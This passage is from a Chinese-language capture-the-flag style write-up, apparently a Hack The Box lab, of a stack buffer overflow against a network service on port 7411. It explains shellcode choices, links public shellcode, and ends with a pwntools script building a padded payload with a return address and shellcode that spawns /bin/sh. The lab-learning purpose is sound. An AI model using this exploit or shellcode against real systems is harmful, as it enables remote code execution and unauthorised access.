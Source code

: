 可以看到eip 在0xffffc861
而\xCC 在他的前一個

![image](https://hackmd.io/_uploads/SJvzxDLQC.png)


#### exploit part 3

現在可以塞shellcode 進去
我花了點時間了解了shellcode
我發現他好像好像只是把reverse shell 換成組語
讓系統執行

我們可以用

-- > 這個需要自己算自己的ip 然後開nc
https://shell-storm.org/shellcode/files/shellcode-833.html

或是

這個執行上只要丟上去就好了
學術上會成功的原因
他好像是把 stdin stdout stderr 改成其他東西
然後執行 execve /bin/sh
https://blog.csdn.net/silent123go/article/details/71108501

https://www.exploit-db.com/exploits/34060

#### fin exploit

```python=
#!/usr/bin/python3

from pwn import *

if args['REMOTE']:
        ip = '10.10.10.34'
else:
        ip = '127.0.0.1'

"""
p = remote(ip,7411)
p.recvuntil(b"OK Ready. Send USER command.")
p.sendline(b"USER admin")
p.recvuntil(b"OK Send PASS command.")
p.sendline(b"DEBUG")
p.recvuntil(b"OK DEBUG mode on.")
p.sendline(b"PASS admin")
p.recvuntil(b"Debug: userpass buffer @ ")
userpass_addr = int(p.recvline(),16)
log.info(f"Got leak of userpass from server: 0x{userpass_addr:08x}")
p.close()

"""

userpass_addr = 0xffffd610

shellcode = b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
shellcode += b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
shellcode += b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
shellcode += b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
shellcode += b"\x89\xe3\x31\xc9\xcd\x80";

payload = b"A" * 28
payload += p32(userpass_addr + 32)
payload += shellcode

```